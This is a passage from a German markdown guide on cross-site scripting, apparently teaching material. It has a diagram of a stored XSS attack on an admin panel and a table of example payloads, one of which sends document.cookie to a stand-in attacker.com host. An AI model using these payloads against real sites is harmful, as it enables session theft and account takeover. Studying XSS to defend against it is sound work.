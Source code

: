 #### typischer Ablauf eines Angriffs:
```text
+------------+            +-------------+       +-------------------+
|  Angreifer |            | Webserver   |       | Administrator /   |
+------------+            +-------------+       | interner Nutzer   |
      |                       |                 +-------------------+
1. Schickt schädlichen        |                        |
   Code an nicht öffentliches |                        |
   Formular (z.B. Feedback)   |                        |
      |---------------------->|                        |
      |                       |                        |
2. Code wird in der DB        |                        |
   gespeichert                |                        |
      |                       |----------------------->|
      |                       |                        |
3. Admin ruft Backend auf     |                        |
      |                       |----------------------->|
      |                       |                        |
4. Der bösartige Code wird    |                        |
   auf dem Admin-Panel        |                        |
   angezeigt                  |                        |
      |                       |                        |
5. Angreifer klaut die        |                        |
   Admin-Session oder führt   |                        |
   Befehle aus                |                        |
      |<-----------------------------------------------|

```

- **Typisch:** Kontaktformulare, Support-Tickets, interne Notizfunktionen.

- **Erkennung:** Schwer zu finden, da man nicht weiß, ob der Code überhaupt ausgeführt wird. Tools wie XSS Hunter sind hier essenziell.


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Nützliche XSS Payloads
Die Wahl des Payloads hängt stark vom Kontext der Anwendung ab.

| Zweck                   | Beispiel-Payload                                                   |
| ----------------------- | ------------------------------------------------------------------ |
| Einfacher Test          | `<script>alert(1)</script>`                                        |
| HTML-Injection          | `<img src=x onerror=alert(1)>`                                     |
| Inline SVG              | `<svg/onload=alert(1)>`                                            |
| Base64 Encoded          | `<img src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoM...>`|
| Cookie stehlen          | `<script>fetch('http://attacker.com?c='+document.cookie)</script>` |
| DOM XSS                 | `#<img src=x onerror=alert(1)>`                                    |
| JavaScript-only (Event) | `<body onload=alert(1)>`                                           |
